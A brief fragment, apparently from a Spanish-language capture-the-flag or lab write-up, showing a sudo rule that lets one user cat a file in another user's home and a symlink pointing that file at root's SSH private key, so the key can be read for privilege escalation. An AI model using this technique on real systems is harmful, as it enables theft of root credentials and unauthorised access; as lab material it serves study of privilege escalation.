 
Usuaria sophia ->
(ALL : ALL) NOPASSWD: /usr/bin/cat /home/isabella/.invisible 

Usuaria isabella ->
```
ln -s /root/.ssh/id_rsa /home/isabella/.invisible
```